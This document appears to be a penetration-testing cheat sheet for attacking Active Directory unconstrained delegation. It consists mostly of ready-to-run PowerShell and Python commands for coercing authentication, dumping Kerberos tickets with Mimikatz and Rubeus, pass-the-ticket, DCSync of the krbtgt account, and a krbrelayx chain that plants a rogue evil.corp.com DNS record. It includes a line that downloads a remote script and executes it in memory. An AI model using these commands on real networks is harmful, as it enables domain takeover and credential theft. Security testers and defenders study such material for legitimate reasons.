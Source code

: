 # Enumeration
```powershell
# PowerView
Get-DomainComputer -Unconstrained -Properties dnshostname, samaccountname |FL

# PowerShell
Get-ADComputer -Filter {TrustedForDelegation -eq $true} | Select DNSHostName, SamAccountName | FL
```

# Forced Authentication

When a system has Unconstrained Delegation enabled, a potential attack vector is to force other users or systems to authenticate against the host which is configured for unconstrained delegation.

By doing so we can force the victim user / computer account to store a copy of their TGT into the compromised system.

```powershell
# Invoke-SpoolSample
# Load into memory amd execute
IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
Invoke-SpoolSample -Command "[Target Sever] [Listening Host]"

# SharpSystemTriggers
# https://github.com/cube0x0/SharpSystemTriggers
# Compiled Binaries: https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/Coercion
.\SharpEfsTriggeEfs.exe <Target IP> <Listener IP> <API call>
.\SharpEfsTriggeEfs.exe 192.168.1.10 192.168.1.250 EfsRpcEncryptFileSrv
```
# Ticket Acquisition
```powershell
# Rubeus
Invoke-Rubeus -Command "monitor interval:2 /nowrap"
Invoke-Rubeus -Command "monitor interval:2 /nowrap /targetuser:administrator"

# Mimikatz
Invoke-Mimikatz -Command '"token::elevate "sekurlsa::tickets /export"'
Invoke-Mimikatz -Command '""token::elevate" "kerberos::list /export"'

# TGT_Monitor
TGT_Monitor -EncryptionKey "Password123" -Timeout 60
TGT_Monitor -EncryptionKey "Password123" -Read

# PsMapExec (Remote)(Monitor for 3 minutes)
PsMapExec -Targets APPSRV01 -Method WMI -Username User -Password Password -Module KerbDump -Option kerbdump:monitor:3 -ShowOutput
```
# Pass-the-Ticket 
Pass the extracted ticket into the current or new session
```powershell
# Rubeus
# Pass ticket into seperate session (Preffered)
Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /show /ticket:[Base64 ticket] /ptt"

# Mimikatz
# Pass ticket into current session
Invoke-Mimikatz -Command '"kerberos::ptt [Ticket-Name.kirbi]"'
Invoke-Mimikatz -Command '"kerberos::list"'
Invoke-Mimikatz -Command '"misc::cmd"'

# PsMapExec
# Inject into current session
PsMapExec -Method Inject -Ticket [Base64 Ticket] -Verbose

# Authenticate to remote host
PsMapExec -Targets All -Methid WMI -Ticket [Base64 Ticket] -Command whoami
```
# Unconstrained --> DcSync
The best and most likely attack vector for Unconstrained Delegation is to force a Domain Controller to authenticate to the server configured with Unconstrained Delegation (Shown Above). When this is the case and we capture a TGT for the domain controller the most ideal next step is to perform a DCSync attack with the machine ticket.

```powershell
# Mimikatz
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

# PsMapExec
PsMapExec -Targets DC01.corp.com -method DCSync -ShowOutput -Ticket "doIFXDCCBVigAwIBBaEDAgEWooIEcDCCBGx..."
PsMapExec -Targets DC01.corp.com -method DCSync -Option "DCsync:corp\krbtgt" -ShowOutput -Ticket "doIFXDCCBVigAwIBBaEDAgEWooIEcDCCBGx..."
```

# Machine Account --> Machine Account Admin
By default, machine accounts do not have local administrative rights over themselves. For example, if we force a Domain Controller to authenticate to a system with Unconstrained Delegation and then capture the machine account's TGT, we will not be able to access it from an administrative context.

However, we can leverage Rubeus with the `/self` flag to impersonate a user within the domain and create a TGS for that impersonated user back to the machine account. A requirement here is to ensure the user we choose to impersonate has local administrative rights over the machine account.

In the below command. The value of `$ticket` is a TGT for the domain controller `cdc01.prod.corp1.com` which was captured from a system configured with Unconstrained Delegation.

```powershell
Invoke-Rubeus -Command "s4u /impersonateuser:admin /self /altservice:cifs/cdc01.prod.corp1.com /user:cdc01$ /ticket:$ticket /nowrap"

<#
[*] Action: S4U

[*] Building S4U2self request for: 'CDC01$@PROD.CORP1.COM'
[*] Using domain controller: cdc01.prod.corp1.com (192.168.210.70)
[*] Sending S4U2self request to 192.168.210.70:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/cdc01.prod.corp1.com,ldap/cdc01.prod.corp1.com'
[*] Got a TGS for 'administrator' to 'cifs@PROD.CORP1.COM'
[*] base64(ticket.kirbi):

      doIFijCCBYagAwIBBaEDAgEWooIEezCC...

[+] Ticket successfully imported!

PS C:\Users\offsec.PROD> dir \\cdc01.prod.corp1.com\c$


    Directory: \\cdc01.prod.corp1.com\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        4/20/2020   3:53 AM                Program Files
d-----        4/20/2020   3:54 AM                Program Files (x86)
d-----        4/20/2020   3:40 AM                SQL2019
d-----        4/20/2020   4:20 AM                Tools
d-r---       10/10/2024  11:05 PM                Users
d-----        4/20/2020   3:58 AM                Windows
#>
```
# KRBRelayx

The whole attack chain can also be performed with krbrelayx.py. This method requires initial access to the Unconstrained target systems NTLM and AES256 Keys (Mimikatz, secretsudmp).

```python

# Authenticate to the machine account configured with Unconstained Delegation
python3 addspn.py -u corp\\files01\$ -p <Target NTLM Hash> -s HOST/evil.corp.com DC01.corp.com --additional 

# Upate DNS records on the target system
python3 dnstool.py -u corp\\files01\$ -p <Target NTLM Hash> -r evil.corp.com -d 192.168.45.197 --action add DC01.corp.com

# Wait a few minutes then confirm against the DNS / DC Server records are updated
nslookup evil.corp.com 192.168.236.100

# Execute krbrelayx with the AES256 hash of the target system
sudo python3 krbrelayx.py -aesKey <Target AES256 Hash>

# Coerce authentication from the DC to the unconstrained target system
python3 printerbug.py corp.com/'files01$'@DC01.corp.com -hashes <Target NTLM Hash> evil.corp.com

# Export the TGT for use with secretsdump and DCSync
export KRB5CCNAME='DC01$@CORP.COM_krbtgt@CORP.COM.ccache'
secretsdump.py DC01.corp.com -dc-ip 192.168.236.100 -just-dc-user 'CORP\krbtgt' -k -no-pass

```

